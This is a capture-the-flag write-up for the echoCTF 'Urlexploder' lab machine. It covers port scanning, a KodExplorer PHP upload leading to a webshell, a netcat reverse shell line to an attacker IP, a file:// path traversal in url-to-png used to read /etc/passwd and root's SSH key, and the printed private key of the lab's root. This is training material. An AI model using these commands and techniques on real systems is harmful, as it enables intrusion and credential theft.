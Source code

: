 ```yaml
---
description: >-
  Urlexploder echoCTF Machine
title: Urlexploder (Intermediate)                # Add title here
date: 2025-01-24 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Urlexploder.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.235
```

### Content

- KodExplorer Dangerous File Upload leading to RCE
- Arbitrary File Read via Playwright's Screenshot Feature Exploiting File Wrapper

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
cat allPorts 
# Nmap 7.94SVN scan initiated Fri Jan 24 22:37:55 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.235
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.235 ()   Status: Up
Host: 10.0.160.235 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///

```
Services and Versions running:
```bash
# Nmap 7.94SVN scan initiated Fri Jan 24 23:11:06 2025 as: nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.235
Nmap scan report for 10.0.160.235
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-24 23:11:07 EST for 41s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 db:11:dd:7f:d8:dd:fe:0e:61:4c:3e:59:89:c6:e7:91 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFfdp13tqB/Uxu32MFZtasmeHOM0ueGElZo4lEkwRGqX93ECOMnYlO/Tam1LuihI0SA847wB36KoW6sV60NJ+VI=
|   256 54:5b:00:b8:34:d8:c0:a6:27:f7:e5:4d:c6:52:5c:40 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID2/nUUxae+gYgRz9NWhGR5uY88FnnGbROgJiWaruAO8
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     KOD_SESSION_ID_7da51: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: 8B93800E9876BD86C2C4280F05066EE0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET
| http-title: KodExplorer - Powered by KodExplorer
|_Requested resource was ./index.php?user/login
|_http-generator: KodExplorer 4.49
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploitation

Only HTTP port tcp-80 is open, by exploring it we notice that there is a CMS called KodExplorer:
![](/assets/img/Pasted-image-20250124221442.png)

While investigating this CMS, we identify various exploits, but the most interesting one is under this [Github post](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/kalcaddle/2023/KodExplorerKodExplorer-4.51.03) also the same post makes a reference to a [Youtube video](https://www.youtube.com/watch?v=stfT7BtulQ0&ab_channel=nu11secur1ty) that provides with a full PoC that we can follow to get a reverse shell, it is unnecessary to add the images of the guide since it is self-explanatory.

By following the steps, you should be able to upload a PHP file and select the option "Open in browser(B)" as shown in the image below:
![](/assets/img/Pasted-image-20250124222013.png)

In that way, we will have a webshell that we can use to get a revshell using netcat:

![](/assets/img/Pasted-image-20250124222120.png)

Using the clasic `nc -e /bin/bash 10.10.5.122 1234`:

![](/assets/img/Pasted-image-20250124222340.png)

### Privilege Escalation

Privilege Escalation for this one was a pain in the ass, we first started by searching interesting processes using `ps -aux` 

```bash
www-data@urlexploder:~/html/data/User/pwnedadmin/home/desktop$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         137  0.0  0.5 11508908 48520 pts/0  Sl   16:02   0:00 node /opt/url-to-png-2.0.1/node_modules/.bin/../tsx/dist/cli.mjs --watch src/main.ts
root         138  0.0  0.5 1022592 46556 pts/0   Sl   16:02   0:00 node /opt/url-to-png-2.0.1/node_modules/.bin/../pino-pretty/bin.js
root         165  0.0  0.5 989580 46336 pts/0    Sl   16:02   0:00 /usr/bin/node --require /opt/url-to-png-2.0.1/node_modules/.pnpm/tsx@4.11.0/node_modules/t
root         171  0.4  1.2 64713368 98888 pts/0  Sl   16:02   0:01 /usr/bin/node --require /opt/url-to-png-2.0.1/node_modules/.pnpm/tsx@4.11.0/node_modules/t
root         183  0.0  0.1 721568 13064 pts/0    Sl   16:02   0:00 /opt/url-to-png-2.0.1/node_modules/.pnpm/@esbuild+linux-x64@0.20.2/node_modules/@esbuild/l
root         316  0.0  1.1 34047236 89736 ?      Ssl  16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --disable-field-trial-config 
root         317  0.0  1.0 34055452 88400 ?      Ssl  16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --disable-field-trial-config 
root         320  0.0  0.7 33875100 58836 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-zygote-san
root         321  0.0  0.7 33875100 58792 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-zygote-san
root         322  0.0  0.7 33875088 59084 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-sandbox --
root         323  0.0  0.7 33875088 59048 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-sandbox --
root         355  0.0  0.6 33970392 49320 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=gpu-process --no-sandb
root         356  0.0  0.9 33924688 75712 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=utility --utility-sub-
root         370  0.0  0.6 33970392 49328 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=gpu-process --no-sandb
root         378  0.0  0.9 33924688 75440 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=utility --utility-sub-
```

Some interesting processes are shown, specially one that is called ms-playwright and a process is also being called from the `/opt` directory called url-to-png-2.0.1, those two are interesting to check.

In second place we search for interesting files, inside `/tmp` directory with the following content:

![](/assets/img/Pasted-image-20250125002042.png)

As shown on permissions only the `tsx-0` directory is accesible, inside of it there are some unknown files:
![](/assets/img/Pasted-image-20250125002205.png)

All the files in here includes a path that is a process running in the previous `ps -aux` command, which makes this url to png 2.0.1 more interesting:
![](/assets/img/Pasted-image-20250126101131.png)

Looking for vulnerabilities for this binary, there is one that looks pretty interesting:

![](/assets/img/Pasted-image-20250126212527.png)

Basically, the PoC is a Path Traversal that allows a user to read files using a `file://` scheme:

![](/assets/img/Pasted-image-20250126212731.png)

Now, while trying with the initial webpage we discover that is not working for it, so we investigate other open services on the machine:

```bash
www-data@urlexploder:/tmp$ ss -tuln 
Netid    State     Recv-Q    Send-Q   Local Address:Port
udp      UNCONN    0         0        127.0.0.11:51087  
tcp      LISTEN    0         128      0.0.0.0:22        
tcp      LISTEN    0         511      0.0.0.0:80        
tcp      LISTEN    0         511      127.0.0.1:3089    
tcp      LISTEN    0         4096     127.0.0.11:38077  
tcp      LISTEN    0         128      [::]:22           

```

The port 3089 is not a common open port so I sent an HTTP request to see if the server is web or not:
```bash
www-data@urlexploder:/tmp$ curl -s http://127.0.0.1:3089/
{"message":"Invalid query parameters"}
```

And surprisingly enough, it is, now using the PoC we can see that there is a file being downloaded, at first glance it looks like the `/etc/passwd` is downloaded, but looking the content of the file it seems like a PNG image:

![](/assets/img/Pasted-image-20250126213445.png)

To check the images better I decided to go and do a Port Forwarding using [Chisel](https://shuciran.github.io/posts/Chisel/) so I can see this images from my own browser and the result was the content of `/etc/passwd` on the image:

![](/assets/img/Pasted-image-20250126213828.png)

So we decide to grab the id_rsa directly from the /root directory, but there is an error if the file is not found:

![](/assets/img/Pasted-image-20250126214037.png)

In this cases, there are other types of private keys such as the id_rsa, some of them are created using Eliptyc Curves or other algorithms instead and some examples are as follows:

```text
id_rsa
id_ecdsa
id_ed25519
id_dsa
```

If there is a private key then we should check for the `authorized_keys`, which is a file that provides more info about it:

![](/assets/img/Pasted-image-20250126214833.png)

And as suspected, the algorithm used is ED25519 which is the abbreviature for Algorithm: EdDSA (Edwards-Curve Digital Signature Algorithm) using Curve25519, searching for this kind of algorithm provides details about the type of public key and private key and common name generated while creating them:

![](/assets/img/Pasted-image-20250126215856.png)

Looking up for this file using the Path Traversal vulnerability, throws the private key:

![](/assets/img/Pasted-image-20250126220022.png)

Now the interesting part was to extract the text from this one (I made a lot of mistakes while trying) I used Snagit to save me time, but here I got you:

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBFmNuELVMDeb/xQStnwEkL0RjFD9msBy9Bi6Z4xztsPwAAAIjPmzllz5s5
ZQAAAAtzc2gtZWQyNTUxOQAAACBFmNuELVMDeb/xQStnwEkL0RjFD9msBy9Bi6Z4xztsPw
AAAEDDObDOfFBe45Bc8LenwEN1IUmI9KJrqk0E8Xyj7ZrW4UWY24QtUwN5v/FBK2fASQvR
GMUP2awHL0GLpnjHO2w/AAAAAAECAwQF
-----END OPENSSH PRIVATE KEY-----
```

Finally, we have root shell:

![](/assets/img/Pasted-image-20250126220430.png)

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`enviornment variables (env command)`
`/root`


### Credentials

id_ed25519

### Notes

-  Always look for other type of private keys such as `id_ed25519`, `id_dsa`, `id_ecdsa` and so on if you can't find the classic `id_rsa`.

### References

- [KodExplorer RCE Video](https://www.youtube.com/watch?v=stfT7BtulQ0&ab_channel=nu11secur1ty)
- [Chisel Configuration](https://shuciran.github.io/posts/Chisel/)
